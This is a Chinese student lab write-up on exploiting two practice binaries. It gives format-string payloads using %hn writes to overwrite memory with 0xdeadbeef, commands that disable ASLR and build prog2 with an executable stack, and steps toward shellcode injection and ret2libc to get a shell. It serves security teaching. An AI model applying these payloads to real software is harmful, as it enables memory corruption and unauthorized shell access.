0x7799=30617；30617-26248=4369；

~~~bash
echo $(printf "\x56\xed\xff\xbf@@@@\x54\xed\xff\xbf") %.8x%.8x%.8x%.8x%.26203x%hn%.4369x%hn > input.txt
./prog1 <input.txt
~~~

![image-20230612131042939](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612131042939.png)

7.将内存的值改成0xdeadbeef

~~~bash
echo $(printf "\x56\xed\xff\xbf@@@@\x54\xed\xff\xbf") %.8x%.8x%.8x%.8x%.56960x%hn%.57410x%hn > input.txt
~~~

![image-20230612131309107](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612131309107.png)

##### 二、针对prog2 完成以下任务：

（1）**开启** Stack Guard 保护，并**关闭**栈不可执行保护，通过shellcode 注入进行利用，获得 shell；

（2） **开启** Stack Guard 保护，并**开启**栈不可执行保护，通过ret2lib 进行利用 ，获得 shell （可以通过调用system(“/bin/sh”)）；（提示：需要查找 ret2lic 中的 system函数和“/bin/sh”地址）；

以上任务需要关闭ASLR。

###### （1）

1.环境配置

~~~bash
sudo sysctl -w kernel.randomize_va_space=0	//关闭ASLR
gcc -fstack-protector -z execstack -o prog2 prog2.c  //开启Stack Guard，关闭栈不可执行保护
~~~

![image-20230612203728400](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612203728400.png)

2.创建input文件并运行查看地址

~~~bash
echo "" > input
./prog2
~~~

![image-20230612204119262](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612204119262.png)

3.将恶意代码地址放在input array中，这里选定0xbfffed04+0x90的地方，将ret（ebp+4）填充为我们恶意代码的地址。

构造payload：

![image-20230612205751435](C:\Users\劳明\AppData\Roaming\Typora\typora-user-images\image-20230612205751435.png)

4.运行

~~~bash
python3 2_1.py
./prog2
whoami
~~~
